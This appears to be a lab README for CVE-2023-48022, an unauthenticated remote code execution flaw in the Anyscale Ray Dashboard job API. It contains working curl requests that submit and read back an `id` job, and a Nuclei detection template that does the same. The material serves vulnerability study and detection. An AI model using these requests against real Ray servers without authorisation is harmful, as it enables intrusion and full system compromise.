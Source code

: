 # CVE-2023-48022 - Anyscale Ray (RCE)

## Description  

Anyscale Ray versions 2.6.3 and 2.8.0 are vulnerable to remote code execution (RCE) due to insecure job submission handling in the Ray Dashboard API. An attacker with network access to the dashboard can submit and execute arbitrary code jobs, leading to full system compromise.

## References

- https://bishopfox.com/blog/ray-versions-2-6-3-2-8-0
- https://github.com/jakabakos/ShadowRay-RCE-PoC-CVE-2023-48022
- https://nvd.nist.gov/vuln/detail/cve-2023-48022

## Lab Setup

- Run the following command to build and start the container:

  ```bash
  docker-compose up -d
  ```

- Once the container is running, the Ray Dashboard will be available at: `http://localhost:8265`

## Exploitation Steps

- **Submit a malicious job** via the vulnerable API:

   ```bash
   curl -X POST http://localhost:8265/api/jobs/ \
     -H "Content-Type: application/json" \
     -d '{"entrypoint": "id", "submission_id": "exploit123"}'
   ```
   ![ray-dashboard-rce-1](https://github.com/user-attachments/assets/31decae6-e34f-4c39-8c85-d6c89cf9c61c)

- **Wait a few seconds**, then fetch the logs:

   ```bash
   curl http://localhost:8265/api/jobs/exploit123/logs
   ```

  ![ray-dashboard-rce-2](https://github.com/user-attachments/assets/82e770e4-4789-4cbe-8a77-665d6fa73d4b)

- If successful, the logs will include command output from the `id` command (e.g., `uid=0(root) gid=0(root)`), confirming remote command execution.

## Steps to Write Nuclei Template  

**HTTP Requests**
```yaml
variables:
  jobid: "Job_{{rand_base(6)}}"

http:
  - raw:
      - |
        POST /api/jobs/ HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {
          "entrypoint": "id",
          "submission_id": "{{jobid}}"
        }

      - | # wait for 8 seconds before getting the logs
        GET / HTTP/1.1
        Host: {{Hostname}}

        {{wait_for(8)}}

      - |
        GET /api/jobs/{{jobid}}/logs HTTP/1.1
        Host: {{Hostname}}
```

- Submits a job with id as the command.
- Waits for 8 seconds to allow the job to run.
- Retrieves the logs to confirm code execution.

**Matchers: Detecting Access**

```yaml
    matchers:
      - type: dsl
        dsl:
          - 'status_code == 200'
          - 'contains(body, "logs\":")'
          - 'contains(content_type, "application/json")'
          - 'regex("uid=([0-9(a-z)]+) gid=([0-9(a-z)]+)", body)'
        condition: and
```

- These matchers confirm that:
    * The request was successful (`status_code == 200`)
    * The response contains a `"logs":` key
    * The content type is JSON (`application/json`)
    * The body includes the output of the `id` command (validated with a regex)

## Nuclei Template URL : [CVE-2023-48022](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2023/CVE-2023-48022.yaml)

## Nuclei Command

```bash
nuclei -id CVE-2023-48022 -u localhost:8265 -vv
```

<img width="1574" height="578" alt="image" src="https://github.com/user-attachments/assets/dd158945-6503-4c09-9c74-570100187f97" />
